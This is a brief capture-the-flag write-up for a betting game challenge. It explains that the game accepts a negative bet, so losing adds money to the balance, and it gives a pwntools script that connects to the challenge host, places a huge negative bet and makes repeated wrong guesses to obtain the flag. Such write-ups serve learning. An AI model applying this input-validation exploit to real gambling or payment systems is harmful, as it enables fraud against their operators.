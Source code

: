 After starting the game my immediate thought was whether the game would allow me to enter negative values, so that even if I lose I win. 

Entering -1000000 and making guesses that are wrong i.e. `> 10` allows us to lose the bet but because our bet was negative it gets added to our balance and we get the flag.

```python
#!/usr/bin/python3
from pwn import *

p = remote("thekidofarcrania.com", 10001)

p.recv()
# Accept the rules
p.sendline("Y")
# Set a negative bet
p.sendline("-1000000000")
# make a wrong guess 10 times
for i in range(9):
        p.sendline("11")
# Say nah to play again
p.sendline("N")
p.interactive()
```
